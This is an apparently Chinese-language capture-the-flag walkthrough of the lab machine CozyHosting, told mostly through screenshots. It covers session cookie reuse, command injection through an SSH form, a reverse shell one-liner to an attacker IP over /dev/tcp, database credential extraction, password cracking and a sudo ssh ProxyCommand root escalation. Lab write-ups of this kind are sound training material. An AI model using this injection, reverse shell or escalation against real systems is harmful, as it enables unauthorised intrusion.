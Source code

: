 ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/ca53d48d-8c3e-4d90-9c0b-5992be7d2797)CozyHosting Level:Easy
===
尋找user.txt
---
1.Nmap掃描IP，發現有開22、80

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/be94bec4-7737-4fb2-8017-4f20fccf7517)

2.使用dirsearch搜尋目錄，找到/actuator/sessions，內容跟session有關

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/969ec080-c913-4f63-b819-1aa035fd5303)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a068678f-5ba5-48ce-8923-3fc98f91c180)

3.透過session cookie登入Web

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/df05fe7b-4e80-4c59-b946-eb1746901947)

4.找到疑似可執行ssh，透過burpsuite抓包測試確認可以執行指令

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f05c4cc3-a6d0-4d1f-bfd4-33d3ab5bcc4e)

5.插入reverse shell取得shell

     ;`(sh)0>/dev/tcp/10.10.14.62/1234`   ;表示指令分隔符，它可以讓你在一行中連續執行多個指令。 ``反引號（backticks），表示執行包裹在其內部的命令，並將其輸出插入到命令列中。
 
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/eb0de815-97af-4104-bfd9-5ccb5aea6225)

6.輸入exec >&0，它會將腳本或程式的輸出重新定向到標準輸入，這通常被用於隱藏輸出或將輸出發送到相同的地方作為輸入，以便與輸入進行互動。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9048a526-b34b-46a3-834b-158df8333b02)

7.最後輸入script /dev/null -c bash，將輸出記錄到/dev/null就會被拋棄。這樣執行的命令不會在目標上留下任何痕跡

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1d0621b2-8094-4c44-b98c-00f323093450)

8.在當前目錄下沒有user.txt但發現有一個jar包，將jar包載下來

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/bb41f8bb-e22f-433a-b1ce-b32306443242)

9.解開jar包，使用grep 找出postgres的密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/70c02312-0773-4199-9b55-d07483c3b52e)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/ceb7f02e-d4a9-4d8a-b0b4-df1927125c9e)

10.看到postgres服務是開啟的

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f184b159-513c-465a-99e8-3d963383a0e3)

11.連入postgres

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e466690-9663-4a26-9d5b-65bdaf120231)

12.可以看到兩個表hosts、users，關注users這張表

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/d3ecc83f-5181-42a6-8051-8cd4b655f1a2)

13.找到了兩個帳號

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f063f5cf-559a-4c8a-a5a0-25b65bc1fd74)

14.破解admin密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e7ef2237-92cb-450e-a256-d4c2d7967ae0)

15.試了三次都失敗，可能不是admin的密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0495abd2-5ef2-48f8-b12c-1bfeec816f38)

16.檢查/etc/passwd，發現還有josh帳號，使用josh登入成功

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1737df42-4cfd-4387-b9bc-1400f818da4e)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/3363ba3a-7f98-44ca-86e0-8790d239b30f)

17.找到user.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/7d3bcc1e-2246-4153-b22f-f8770b666be5)

18.執行sudo -l發現SSH 可以使用 root 權限執行。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1aa189e9-4cf6-4c3a-a9e2-62c70a61938e)

19.到[gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo)找到指令提權

     sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/c1fd6925-0dcd-453f-a184-fb372a7d1e1a)

20.找到root.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1db3328f-75e6-4f8e-92ef-f9a0b83b34ef)

